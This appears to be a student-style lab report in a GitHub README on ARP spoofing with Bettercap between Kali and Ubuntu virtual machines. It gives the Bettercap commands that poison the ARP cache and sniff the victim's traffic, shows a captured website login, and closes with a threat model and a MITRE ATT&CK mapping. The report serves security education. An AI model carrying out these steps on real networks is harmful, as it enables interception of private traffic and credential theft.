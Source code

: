 # Cybersecurity Report: ARP Spoofing Using Bettercap

## Introduction

BetterCAP is a powerful, flexible and portable tool created to perform various types of MITM attacks against a network, manipulate HTTP, HTTPS and TCP traffic in realtime, sniff for credentials and much more.

## Attack Setup

This report describes an ARP spoofing attack carried out in a controlled environment using two virtual machines:

 - Attacker: Kali Linux (with Bettercap)

 - Victim: Ubuntu Linux
   
   The goal of the experiment was to demonstrate how an attacker can intercept or manipulate traffic between two devices on a local network using ARP spoofing.

## What is ARP Spoofing?

ARP (Address Resolution Protocol) is used to map IP addresses to MAC (hardware) addresses on a local network. When a device wants to communicate with another, it sends an ARP request and the device with that IP replies with its MAC address.

ARP Spoofing is an attack where a malicious actor sends falsified ARP messages to a LAN. The attacker associates their MAC address with the IP address of another device (such as the gateway or a target machine), causing traffic to be misdirected.

![](images/body-id101-arp-poisoning.png)

## Purpose of ARP Spoofing

- Adversary-in-the-Middle (AitM): Intercept, read, or modify traffic.

- Denial of Service (DoS): Disrupt communication between devices.

- Credential theft or session hijacking: Capture sensitive data.

## Attack Execution

The following steps were performed using Bettercap on the Kali Linux VM to execute the ARP spoofing attack against the Ubuntu victim machine:

   **1. Launch Bettercap**

   
   
 ```bash
 sudo bettercap
```
![](images/1.png)

**2. Enable network discovery modules:**

```net.probe on```: Actively sends probes to discover live hosts.

```net.recon on```: Passively listens for ARP, DHCP, and DNS packets to map the network.

**3. List all discovered hosts:**

```bash
net.show
```
![](images/2.png)

192.168.112.99 is the IP address of the attacker's machine.

192.168.112.206 is the IP address of the gateway.

192.168.112.135 is the IP address of the victim's machine.



**4. Configure ARP spoofing:**

![](images/3.png)

- Set full-duplex mode so that traffic between victim and gateway flows through the attacker:

  ```bash
  set arp.spoof.fullduplex true
  ```
- Set the target IPs — the victim's IP and the default gateway IP:

  ```bash
  set arp.spoof.targets 192.168.112.206, 192.168.112.135
   ```

  
  
**5. Start the ARP spoofing attack:**

```bash
arp.spoof on
```

**6. Begin sniffing the intercepted packets:**

```bash
net.sniff on
```

This allows the attacker to observe and capture network traffic between the victim and the rest of the network in real-time.

![](images/4.png)

We can see here that the victim visited unicornitems.com

The victim logged on his account on the website.

![Login page on unicornitems.com](images/5.png)

The attacker can see the credentiales entered by the victim

![](images/6.png)

## Threat Model

The necessary Threat Model for this attack entails the adversary possessing the following capabilities:

 1. Local Network Access
      - The attacker must be connected to the same local network as the victim (e.g., same Wi-Fi or LAN segment).
      - This may be achieved through physical access (e.g., connecting to an open or weakly protected network) or remote compromise of a device already on the   network.

2. No Network Isolation or ARP Inspection

      - The network does not implement protections like:

           - Dynamic ARP Inspection (DAI)
           - Static ARP entries
           - Port security or VLAN isolation

3. Sufficient Privileges

      - The attacker has administrative (root) privileges on their machine to run tools like Bettercap and enable IP forwarding.

4. No Encryption on Target Services

      - For traffic to be interpretable (e.g., seeing credentials), the victim must be using insecure protocols (like HTTP, FTP, etc.).

## Observed Impact

- The victim continued to access the internet unaware of the interception.
- The attacker was able to:
     - See plaintext HTTP traffic.
     - Capture login credentials (on insecure services).
 

## 5. Threat Modeling Using MITRE ATT&CK

This ARP spoofing attack aligns with the following techniques and tactics from the MITRE ATT&CK framework (Enterprise v11):

- **Tactic: Credential Access**
  - **Technique: Adversary-in-the-Middle: ARP Cache Poisoning (T1557.002)**  
    The attacker poisons the ARP cache to intercept network traffic and gain access to sensitive credentials.  
    

  - **Technique: Network Sniffing (T1040)**  
    Once in an adversary-in-the-middle position, the attacker captures unencrypted data, including usernames and passwords.  
    

- **Tactic: Collection**
  - **Technique: Adversary-in-the-Middle: ARP Cache Poisoning (T1557.002)**  
    The attacker's position in the network allows the collection of data such as session tokens, HTTP requests, and transmitted files.


## Credits

- I have drawn inspiration for this attack from [this](https://www.youtube.com/watch?v=xrK6KA9yzQE) video tutorial.
- https://attack.mitre.org/
- https://www.bettercap.org/
